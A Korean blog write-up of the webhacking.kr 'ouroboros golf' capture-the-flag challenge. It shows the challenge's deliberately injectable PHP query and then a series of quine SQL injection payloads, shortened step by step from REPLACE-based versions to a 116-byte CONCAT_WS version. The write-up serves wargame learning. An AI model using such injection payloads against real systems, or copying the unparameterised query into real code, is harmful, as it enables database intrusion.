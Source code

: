 ```yaml
---
title: ["[Webhacking.kr] ouroboros golf (sqli - 300)"]
date: 2024-12-10 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, quine, golf]
---
```


```php
<?php
  include "../../config.php";
  login_chk();
  print_best_golfer(73);
  $db = dbconnect("ouroboros");
  if(preg_match("/\./i", $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['pw']) echo "<h2>Pw : {$result['pw']}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])){
    // !!THIS IS PAYLOAD GOLF CHALLENGE!!
    // My solution of ouroboros golf is 210byte.
    // If your solution is shorter than mine, you will get 5 point per 1 byte.
    $len = 210 - strlen($_GET['pw']);
    if($len > 0){
      solve(73,$len * 5);
    }
    else{
      echo "<h2>nice try :)</h2>";
    }
  }
  highlight_file(__FILE__);
?>
```

Lord of SQLi의 Ouroboros와 같은 문제이다.  
Golf 형식의 문제로 페이로드가 짧을수록 높은 점수를 받게 된다.  

최고득점이 690 point니까 누군가는 이걸 72byte만에 해결했다는 뜻이다.  

가장 흔한 quine sql injection은 replace함수를 쓰는 것이다.  

```sql
?pw=a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine%23',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine%23') AS Quine%23

?pw=a'union SELECT REPLACE(REPLACE('a"union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")as q%23',CHAR(34),CHAR(39)),CHAR(36),'a"union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")as q%23')as q%23

?pw=a'union select replace(replace('a"union select replace(replace("$",char(34),char(39)),char(36),"$")as q%23',char(34),char(39)),char(36),'a"union select replace(replace("$",char(34),char(39)),char(36),"$")as q%23')as q%23

?pw=a'union select replace(replace('a"union select replace(replace("$",char(34),char(39)),char(36),"$")%23',char(34),char(39)),char(36),'a"union select replace(replace("$",char(34),char(39)),char(36),"$")%23')%23

?pw='union select replace(replace('"union select replace(replace("$",char(34),char(39)),char(36),"$")%23',char(34),char(39)),char(36),'"union select replace(replace("$",char(34),char(39)),char(36),"$")%23')%23
```
Ouroboros를 풀었을 때 사용한 페이로드에서 불필요하게 긴 변수명이나 `as` 같은 것들을 쳐내보다가 최고 점수에 근접하기 위해선 다른 함수를 사용해서 페이로드를 근본적으로 줄여야겠다고 생각했다.  


```sql
?pw='union select concat(a,char(34),a,char(34),'as a)as a%23')from(select"'union select concat(a,char(34),a,char(34),'as a)as a%23')from(select"as a)as a%23

?pw='union select concat_ws(char(34),a,a,'as a)as a%23')from(select"'union select concat_ws(char(34),a,a,'as a)as a%23')from(select"as a)as a%23

?pw='union select concat_ws(char(34),a,a,'a)a%23')from(select"'union select concat_ws(char(34),a,a,'a)a%23')from(select"a)a%23
```
`concat`을 사용한 quine 코드이다.  
초기 코드에서 `as`를 생략하고, `concat_ws`를 사용해서 길이를 줄였다.  

최종 페이로드는 116byte로 470점을 획득했다.  
계속해서 줄여나가 보자.